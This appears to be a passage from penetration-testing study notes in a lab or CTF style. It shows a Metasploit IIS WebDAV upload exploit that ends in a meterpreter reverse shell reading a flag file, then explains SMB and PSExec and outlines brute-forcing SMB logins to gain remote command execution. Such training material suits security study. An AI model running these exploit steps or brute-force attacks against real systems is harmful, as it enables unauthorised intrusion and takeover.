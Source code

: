 **Second method**

```bash
john@attack> msfconsole

msf6> use exploit/windows/iis/iss_webdav_upload_asp
msf6> set httppassword password_123321
msf6> set httpusername bob
msf6> set rhosts 10.3.21.151
msf6> set lhost 10.10.20.2
msf6> set lhost 1234
msf6> set path /webdav/metasploit.asp
msf6> run

meterpreter> cat c:\\flag.txt
```

### Exploiting SMB with PSExec

#### What is SMB ?

* SMB (Server Message Block) is a netwrok file sharing protocol that is used to facilitate the sharing of files and peripherals (printers and serial ports) between computers on a local network (LAN).
* SMB uses port 445 (TCP). However, originally, SMB ran on top of NetBIOS using port 139.
* SAMBA is the open source Linux implementation of SMB, and allows Windows systems to access Linux shares and devices.

#### SMB authentication

The SMB protocol utilizes two levels of authentication

* User authentication : users must provide a username and password in order to authenticate with the SMB server in order to access a share.
* Share authentication : users must provide a password in order to access restricted share.

_Note: both of these authentication levels utilize a challenge response authentication system._

<figure><img src="../../.gitbook/assets/45.png" alt=""><figcaption></figcaption></figure>

#### What is PSExec ?

* PSExec is a lightweight telnet-replacement developed by Microsoft that allows you execute processes on remote windows systems using any user's credentials.
* PSExec authentication is performed via SMB.
* We can use PSExec utility to authenticate with the target system legitimately and run arbitratry commands or launch a remote command prompt.
* It is very similar to RCP, however, instead of controlling the remote system via GUI, commands are sent via CMD.

#### Exploitation process

* In order to utilize PSExec to gain access to a Windows target, we will need to identify legitimate user accounts and their respective passwords or password hashes.
* This can be done by leveraging various tools and techniques, however, the most common technique will involve performing an SMB login brute-force attack.
* We can narrow down our brute-force attack to only include common Windows user account like `Administrator`.
* After we have obtained a legitimate user account and password, we can use the credentials to authenticate with the target system via PSExec and execute arbitrary system commands or obtain a reverse shell.
